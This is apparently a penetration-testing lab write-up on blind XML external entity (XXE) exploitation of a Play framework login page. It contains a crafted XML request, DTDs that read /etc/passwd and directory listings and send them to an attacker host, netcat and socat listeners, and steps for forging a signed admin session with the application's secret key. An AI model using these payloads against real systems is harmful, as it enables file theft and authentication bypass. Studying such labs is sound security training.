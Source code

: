 # Play XML Entities

Like Ruby-on-Rails, Play (auto-magically) manages multiple content-types when it receives HTTP requests. Here the application is really simple  and has nothing to do with XML, it's just a simple login page. However,  since the Play framework automatically parses XML requests, we are able  to exploit this bug to read arbitrary files.

### Vulnerability

XML entities can be used to tell the XML parser to fetch specific content:

- From the filesystem.
- From a web server (HTTP, HTTPs).
- From a FTP server.
- ...

this attack is completely blind and no information will be displayed in  the response. That's why we will need another way to get information  out. 

### Exploit Theory

![Exploitation steps](https://assets.pentesterlab.com/play_xxe/steps.png)

My preferred way of doing this (as it's a blind attack involving multiple steps) is to have 4 terminals next to each other:

- One to send the initial request (step 1).
- One to serve the DTD (step 2&3)
- One to retrieve the information sent by the server (step 5).
- One for debugging purpose.

### Initial Request

we can see that when we try to log in, a POST request is sent:

```
POST /login HTTP/1.1
Host: vulnerable
User-Agent: PentesterLab 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://vulnerable/login
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=test&password=test
```

We will now need to modify this request to send XML, to do this, we will need:

- Remove all the unneeded information to make debugging easier.
- To add the XML message in the body of the request.
- To change the `Content-Type` of the request.

```
POST /login HTTP/1.1
Host: vulnerable
Connection: close
Content-Type: text/xml
Content-Length: 36

<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://192.168.159.1:3000/test.dtd">
<foo>&e1;</foo>
```

Where `http://192.168.159.1:3000/test.dtd` is the location of the Attacker Server

If all goes well, the server should respond with a HTTP 400 error as it's unable to retrieve the DTD. 

### Serving the DTD

In reality the server may not be able to detect our server. So we have to detect what is preventing that

The easiest ways to do that are:

- Run a tiny web server  in the foreground. python webserver

To force the server to send you the content, you will need to use the following DTD:

```xml-dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.159.1:3001/BLAH?%p1;'>">
%p2;
```

Add this inside test.dtd

**This DTD will force the XML parser to read the content of `/etc/passwd` and assigned it to the variable `p1`. Then it will create another variable `p2` that contains a link to your malicious server and the value of `p1`. Then it will print the value of `p2` using the `%p2`. After parsing the DTD will look like:**

```
<!ENTITY e1 SYSTEM 'http://192.168.159.1:3001/BLAH?[/etc/passwd]'>
```

**Where `[/etc/passwd]` is the content of `/etc/passwd`.**

**If you look back at the initial request that we sent, the body contains a reference to `e1`: `<foo>&e1;</foo>`.**

**Once the server finished processing the DTD, it will resolve the reference to `e1` and send the content of `/etc/passwd` to your server.**



### Retrieving information

- `netcat -l -p 3001` but you will need to restart the process every time you access the TCP port.
- `socat TCP-LISTEN:3001,reuseaddr,fork -` that will not shutdown after the first request but can block after few requests.

### Finding a secret url

after url decoding the contents of `/etc/passwd` we can see a **play** user exists

the home directory of this user is `/opt/play-2.1.3/xxe/` 

depending on the xml parser , it's also possible to retrieve the listing of a directory.

```xml-dtd
<!ENTITY % p1 SYSTEM "file:///opt/play-2.1.3/xxe/">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.159.1:3001/BLAH?%p1;'>">
%p2;
```

Using this, you should be able to find `conf/routes`. Once you managed to retrieve this `routes` file, you should be able to access the secret URL.

### Tampering the session

By convention, this code is available in `app/controllers/Application.java` (or `.scala` )

we can see that the session management is done by using a variable named `user` that gets put in the session:

```
      User user = User.findByUsername(username);
      if (user!=null) {
          if (user.password.equals(md5(username+":"+password) )) {
            session("user",username);
            return redirect("/");
```

We will need to forge a Play session that contains the variable `user` with the value `admin`. 

In play session.

The previous pattern was:

```
signature-%00name1:value1%00%00name2:value2%00
```

In this version of Play, the following is used:

```
signature-name1=value1&name2=value2
```

now we will add our own variable `user=admin`

Finally, we can sign the session, the original code looks like:

```
  def sign(message: String, key: Array[Byte]): String = {
    val mac = Mac.getInstance("HmacSHA1")
    mac.init(new SecretKeySpec(key, "HmacSHA1"))
    Codecs.toHexString(mac.doFinal(message.getBytes("utf-8")))
  }
```

In ruby, this can be done using:

```
KEY = "[KEY FOUND IN conf/application.conf]"
def sign(data)
  OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, KEY,data)
end
```